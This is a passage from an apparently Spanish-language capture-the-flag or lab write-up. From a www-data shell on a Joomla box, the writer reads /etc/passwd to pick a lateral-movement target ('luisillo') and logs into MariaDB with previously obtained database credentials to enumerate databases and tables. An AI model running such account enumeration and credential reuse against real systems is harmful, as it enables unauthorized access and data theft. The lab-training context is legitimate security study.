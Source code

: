 Revisamos los usuarios disponibles en la maquina a los que podamos apuntar para movernos lateralmente, pero el único usuario que cumple con estas condiciones es `luisillo`:

```bash
www-data@f558d5db82a1:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
messagebus:x:102:103::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
```

Con las credenciales obtenidas anteriormente, nos conectamos a la base de datos:

```bash
www-data@f558d5db82a1:/home$ mysql -ujoomla_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 237
Server version: 10.11.8-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla_db          |
+--------------------+
2 rows in set (0.002 sec)

MariaDB [(none)]> use joomla_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [joomla_db]> show tables;
+-------------------------------+
| Tables_in_joomla_db           |
+-------------------------------+
...
```